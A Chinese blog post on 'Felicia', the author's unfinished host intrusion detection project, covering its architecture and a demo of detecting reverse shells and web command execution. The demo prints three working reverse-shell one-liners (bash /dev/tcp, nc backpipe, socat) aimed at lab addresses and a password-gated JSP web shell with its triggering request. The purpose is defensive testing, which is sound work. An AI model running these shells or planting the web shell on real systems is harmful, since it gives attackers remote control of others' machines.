

一、起源
当时想着写这个项目的原因主要有如下几点：
1、自身代码化的能力较弱，想通过项目驱动提升自己的代码化能力与熟练度
2、毕业前其实没有真正去写过一个完整的开源项目，一直挺遗憾的
3、也可以算作入主机安全领域这段时间下来的一个小沉淀、小总结
4、虽然非常简单，但包含着自己对主机安全这块的理解与思考，可以作为自己能力的一部分
虽然事情很多，但最终还是决定去写这个项目，项目取名”Felicia”，源自小时候很喜欢的一款单机RPG游戏中的女二的名字（翻译过来应该是叫”菲利西亚”），从小喜欢到现在的女角色；给自己第一个项目取这个名字还是带着一点想法的，寓意是激励自己，希望对一切都能保持单纯与热情（就像对这个游戏一样），并在开源这条道路上坚定的走下去。
二、设计
1、架构设计
yulong的架构可以称作是当前业界hids方向的标准架构设计了，当时的设想就是在这套标准架构的基础上筛除一些可有可无的，比如web和与其相关的功能（毕竟只是自己玩），只留下agent、daemon、server、es、kafka/mq这些基础设施；agent用来实时/定时收集信息和做安全检测以及传输事件，daemon负责与agent进行通信，server只保留数据接收/分析功能，es负责全量数据的持久化与搜索，kafka/mq负责做消息队列存储安全事件，方便分发事件给其它（将要设计的）模块，如（大数据）分析模型等等

2、功能设计
功能上初步设计如下几个模块：
1）进程监控
2）网络监控
3）文件监控
3、具体实现
1）监控功能
- 进程（cn_proc）
- 网络（netlink socket监视）
- 文件（inotify/fanotify）
2）检测功能
4、演示
反弹shell
受害机：
1
| bash -i >&/dev/tcp/192.168.31.162/7777 0>&1
|
or
1
| mknod backpipe p; nc 192.168.31.162 7777 0<backpipe | bash 1>backpipe 2>backpipe
|
or
1
| socat TCP4:192.168.30.127:1234 EXEC:bash,pty,stderr,setsid,sigint,sane
|
攻击机：
检测结果：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
| root@ubuntu:~/Felicia# ./demo
reverse shell event
{
'evt':'rvshell'
'pid':'19256'
'exe':'/bin/bash'
'cmdline':'bash'
'cwd':'/root/Felicia'
'ppid':'19255'
'pexe':'/usr/bin/socat'
'pcmdline':'socat TCP4:192.168.31.162:7777 EXEC:bash,pty,stderr,setsid,sigint,sane'
'uid':'0'
'pname':'bash'
'stdin':'/dev/pts/3'
'stdout':'/dev/pts/3'
'srcip':'192.168.31.115'
'dstip':'192.168.31.162'
'srcport':'43696'
'dstport':'7777'
'tty':'/dev/pts/3'
'unixtime':'0'
}
root@ubuntu:~/Felicia# ./demo
reverse shell event
{
'evt':'rvshell'
'pid':'19230'
'exe':'/bin/bash'
'cmdline':'bash'
'cwd':'/root/Felicia'
'ppid':'14615'
'pexe':'/bin/bash'
'pcmdline':'-bash'
'uid':'0'
'pname':'bash'
'stdin':'pipe:[140445]'
'stdout':'/root/Felicia/backpipe'
'srcip':'192.168.31.115'
'dstip':'192.168.31.162'
'srcport':'43694'
'dstport':'7777'
'tty':'/dev/pts/4'
'unixtime':'0'
}
root@ubuntu:~/Felicia# ./demo
reverse shell event
{
'evt':'rvshell'
'pid':'18705'
'exe':'/bin/bash'
'cmdline':'bash -i'
'cwd':'/root/Felicia'
'ppid':'14615'
'pexe':'/bin/bash'
'pcmdline':'-bash'
'uid':'0'
'pname':'bash'
'stdin':'socket:[136198]'
'stdout':'socket:[136198]'
'srcip':'192.168.31.115'
'dstip':'192.168.31.162'
'srcport':'43658'
'dstport':'7777'
'tty':'/dev/pts/4'
'unixtime':'0'
}
|
Web RCE
vulnhub tomcat8靶场测试 jsp小马执行命令
受害机：
1
2
3
4
5
6
7
8
9
10
11
12
13
| root@06bc32a5536b:/usr/local/tomcat/webapps/ROOT# cat getshell.jsp
<%
if("023".equals(request.getParameter("pwd"))){
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
int a = -1;
byte[] b = new byte[2048];
out.print("<pre>");
while((a=in.read(b))!=-1){
out.println(new String(b));
}
out.print("</pre>");
}
%>
|
攻击机：
1
| http://192.168.31.115:8007/getshell.jsp?pwd=023&i=ls
|
检测结果：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
| root@ubuntu:~/Felicia# ./demo
web rce event
{
'evt':'webrce'
'pid':'19484'
'exe':'/bin/ls'
'cmdline':'ls'
'cwd':'/usr/local/tomcat'
'ppid':'15594'
'pexe':'/usr/lib/jvm/java-7-openjdk-amd64/jre/bin/java'
'pcmdline':'/usr/lib/jvm/java-7-openjdk-amd64/jre/bin/java -Djava.util.logging.config.file=/usr/local/tomcat/conf/logging.properties -Djava./proc/19484/exe'
'uid':'0'
'pname':'ls'
'stdin':'pipe:[141299]'
'stdout':'pipe:[141300]'
'tty':' '
'unixtime':'0'
}
|
三、问题
最终的成品依旧是未完工的，只有进程监控和反弹shell、命令执行两块的检测，没有文件、网络监控，没有server；之所以未完成， 主要包含以下几点：
1、时间太紧，人力有限，没有更多时间和精力投入了
2、和工作内容有重合，相对有一点敏感
3、整体项目无论是设计还是功能，都非常简单，其实要只说思考和理解的话，在设计阶段目的就已经达到了；剩下的就是代码化，去在细节层面去发现问题，提升能力了，这块还是打算慢慢积累，现在花时间去做这个其实意义不是非常大
4、工作中有新的挑战，云（原生）安全将是未来的风口，花时间去学习新东西（eBPF、Sysdig、Falco、Cilium、国外产品设计、etc.）相比设计和落地已经理解的东西意义更大
四、总结
https://github.com/driverxdw/Felicia
（dalao勿喷 也希望能与同一领域的师傅们多交流）